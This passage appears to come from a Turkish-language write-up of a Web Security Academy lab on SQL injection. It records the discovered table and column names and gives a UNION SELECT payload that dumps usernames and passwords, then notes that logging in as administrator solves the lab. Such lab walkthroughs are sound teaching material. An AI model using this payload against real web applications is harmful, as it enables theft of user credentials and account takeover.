 ```html
gelen sonuçları not ediyoruz:
Tablo Adı: 
users_nmvfut

Kolon Adları:
password_ugssmd
email
username_obdlzx
```

Bu bilgiler ışığında yeni SQL sorgumuzu hazırlayalım. 

```html
mdisec' UNION SELECT null, concat(username_obdlzx,':::ilker:::',password_ugssmd) FROM users_nmvfut -- adfsf
```

Bu şekilde sorgumuzu SQL Injection güvenlik açığı sayesinde web uygulamasında çalıştırdığımızda istediğimiz sonuçları artık alabiliyoruz.

![Untitled](Web-Security-0x0A-Web-Security-Academy'den-Devam-E-5d98a1205cb7439db45c8e0570ab118e/Untitled-25.png)

Ve son olarak administrator hesabıyla giriş yaptığımızda lab çözülmüş oluyor…

![Untitled](Web-Security-0x0A-Web-Security-Academy'den-Devam-E-5d98a1205cb7439db45c8e0570ab118e/Untitled-26.png)
